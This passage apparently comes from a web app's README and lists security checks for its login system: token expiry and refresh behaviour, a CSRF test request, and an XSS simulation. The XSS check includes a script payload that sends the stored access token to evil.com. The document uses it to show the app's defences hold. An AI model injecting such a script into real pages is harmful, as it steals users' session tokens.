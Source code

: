 ✅ 2. Access Token Expiry
Wait 20s after login

Try CRUD action

It will auto-refresh via /refresh and retry the request

✅ 3. Refresh Token Expiry
Wait 60s after login

Try any request

Session expires

You’re logged out automatically

✅ 4. CSRF Test
Try running this in browser console (not your app tab):
```js
fetch('https://localhost:3007/products', {
  method: 'POST',
  credentials: 'include',
  headers: {
    'Content-Type': 'application/json',
    'x-csrf-token': 'fake-token'
  },
  body: JSON.stringify({ name: 'MaliciousProduct', price: 0 })
});
```
✔️ Should return 403 Forbidden (invalid CSRF token)

✅ 5. XSS Simulation
Try injecting script in product name:
```html
<script>fetch('https://evil.com?token=' + localStorage.getItem('access_token'))</script>
```
✔️ Won’t work:

- No localStorage tokens
- CSP blocks inline JS

---

## ✅ 9. Features

🔒 Secure login with hashed passwords (bcrypt)

🌐 Fully HTTPS secured with trusted certs

🔁 Auto token refresh logic with countdown timers

⚠️ SweetAlert feedback for users

🔥 CSP headers to prevent inline/injected scripts

✅ Ready-to-use with minimum setup

---
